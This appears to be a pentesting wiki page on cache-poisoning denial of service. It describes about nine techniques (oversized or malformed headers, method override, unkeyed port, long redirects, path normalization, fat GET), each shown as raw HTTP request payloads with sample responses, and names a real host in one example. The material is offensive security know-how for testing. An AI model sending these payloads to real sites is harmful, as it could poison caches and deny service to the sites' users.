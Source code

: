 # Cache Poisoning to DoS


{% hint style="danger" %}
In this page you can find different variations to try to make the **web server respond with errors** to requests that are **valid for the cache servers**
{% endhint %}

* **HTTP Header Oversize (HHO)**

Send a request with a header size larger than the one supported by the web server but smaller than the one supported by the cache server. The web server will respond with a 400 response which might be cached:

```
GET / HTTP/1.1
Host: redacted.com
X-Oversize-Hedear:Big-Value-000000000000000
```

* **HTTP Meta Character (HMC) & Unexpected values**

Send a header that contain some **harmfull meta characters** such as `\n` and `\r`. In order the attack to work you must bypass the cache first.

```
GET / HTTP/1.1
Host: redacted.com
X-Meta-Hedear:Bad Chars\n \r
```

A badly configured header could be just `\:` as a header.

This could also work if unexpected values are sent, like an unexpected Content-Type:

```
GET /anas/repos HTTP/2
Host: redacted.com
Content-Type: HelloWorld
```

* **Unkeyed header**

Some websites will return an error status code if they **see some specific headers i**n the request like with the _X-Amz-Website-Location-Redirect: someThing_ header:

```
GET /app.js HTTP/2
Host: redacted.com
X-Amz-Website-Location-Redirect: someThing

HTTP/2 403 Forbidden
Cache: hit

Invalid Header
```

* **HTTP Method Override Attack (HMO)**

If the server supports changing the HTTP method with headers such as `X-HTTP-Method-Override`, `X-HTTP-Method` or `X-Method-Override`. It's possible to request a valid page changing the method so the server doesn't supports it so a bad response gets cached:

```
GET /blogs HTTP/1.1
Host: redacted.com
HTTP-Method-Override: POST
```



* **Unkeyed Port**

If port in the Host header is reflected in the response and not included in the cache key, it's possible to redirect it to an unused port:

```
GET /index.html HTTP/1.1
Host: redacted.com:1

HTTP/1.1 301 Moved Permanently
Location: https://redacted.com:1/en/index.html
Cache: miss
```

* **Long Redirect DoS**

Like in the following example, x is not being cached, so an attacker could abuse the redirect response behaviour to make the redirect send a URL so big that it returns an error. Then, people trying to access the URL without the uncached x key will get the error response:

```
GET /login?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 301 Moved Permanently
Location: /login/?x=veryLongUrl
Cache: hit

GET /login/?x=veryLongUrl HTTP/1.1
Host: www.cloudflare.com

HTTP/1.1 414 Request-URI Too Large
CF-Cache-Status: miss
```

* **Host header case normalization**

The host header should be case insensitive but some websites expect it to be lowercase returning an error if it's not:

```
GET /img.png HTTP/1.1
Host: Cdn.redacted.com

HTTP/1.1 404 Not Found
Cache:miss

Not Found
```

* **Path normalization**

Some pages will return error codes sending data URLencode in the path, however, the cache server with URLdecode the path and store the response for the URLdecoded path:

```
GET /api/v1%2e1/user HTTP/1.1
Host: redacted.com


HTTP/1.1 404 Not Found
Cach:miss

Not Found
```

* **Fat Get**

Some cache servers, like Cloudflare, or web servers, stops GET requests with a body, so this oucld be abused to cache a invalid response:

```
GET /index.html HTTP/2
Host: redacted.com
Content-Length: 3

xyz


HTTP/2 403 Forbidden 
Cache: hit
```

## References

* [https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52](https://anasbetis023.medium.com/dont-trust-the-cache-exposing-web-cache-poisoning-and-deception-vulnerabilities-3a829f221f52)
* [https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------](https://youst.in/posts/cache-poisoning-at-scale/?source=post\_page-----3a829f221f52--------------------------------)

